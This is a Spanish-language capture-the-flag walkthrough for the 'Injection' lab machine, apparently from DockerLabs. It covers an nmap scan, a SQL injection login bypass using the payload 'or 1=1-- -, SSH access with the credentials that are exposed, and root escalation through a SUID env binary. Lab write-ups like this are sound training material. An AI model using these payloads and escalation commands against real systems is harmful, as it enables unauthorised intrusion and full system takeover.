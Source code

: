 # 🖥️ Máquina Injection
- 🔓 Dificultad: **muy fácil**

## 🔌 Comprobamos la conexión:
Primero comprobaremos si tenemos conexión con la máquina Injection:

```bash
ping -c 3 172.17.0.2
```

Este comando enviará solo 3 paquetes ping a la dirección IP designada (172.17.0.2) y luego terminará.

---

## 🔍 Escaneo con Nmap
Ahora haremos un escaneo de puertos con la herramienta 🛠️ Nmap:

```bash
sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_injection_muyfacil/escaneo_maquina_inyection 
```

🔎 **Explicación de los parámetros del comando:**

- `-p-` Escanea **todos los 65535 puertos TCP**
- `-sS`  Escaneo **SYN sigiloso**
- `-sC` Usa **scripts por defecto**
- `--open` Muestra **solo puertos abiertos**
- `-sV` Detecta la **versión de los servicios**
- `--min-rate=5000` Velocidad mínima de **5000 paquetes/s**
- `-n` Sin resolución DNS
- `-vvv` Modo muy detallado
- `-Pn` Sin ping al host antes de escanear
- `-oN` Guarda el resultado en la ruta especificada

---

## 📊 Resultado del escaneo

```
Host is up, received arp-response (0.0000080s latency).
Scanned at 2025-05-15 21:58:36 EDT for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
...
```

Observamos que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.

---

## 🌐 Acceso Web

Colocamos la dirección IP `172.17.0.2` en el navegador 🌍. Nos pedirá usuario y contraseña:

![captura-login](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-05-13_04-20-49.png](https://github.com/m4zpan1/DockerLabs_Resolutions/blob/main/injection%201.png?raw=true))

---

## 🧨 Ataque de inyección SQL

Probamos un ataque de **inyección SQL**:

```sql
'or 1=1-- - 
```

![captura-login](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-05-13_04-20-49.png)

🔐 Obtuvimos credenciales:

```
user : dylan
contraseña: KJSDFG789FGSDF78
```

![captura-login](https://github.com/JavierKJ4/Dockerlabs/blob/main/recursos/Screenshot_2024-05-13_04-20-49.png)

---

## 🔐 Conexión SSH

Probamos conectarnos vía SSH:

```bash
ssh dylan@172.17.0.2
# contraseña: KJSDFG789FGSDF78
```

---

# 🧗 Escala de Privilegios

Buscamos binarios con permisos SUID:

```bash
find / -perm -4000 -user root 2>/dev/null
```

📄 Resultado:

```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
...
/usr/bin/env
...
```

📌 El binario `/usr/bin/env` tiene permisos SUID, lo que puede permitir una **escalada de privilegios**.

---

## 🔓 Escalada usando `env`

```bash
./env /bin/sh -p
```

⚠️ Si aparece el error:

```
-bash: ./env: No such file or directory
```

🔧 La solución es ejecutar el comando desde el directorio correcto:

```bash
cd /usr/bin
./env /bin/sh -p
# whoami
root
```
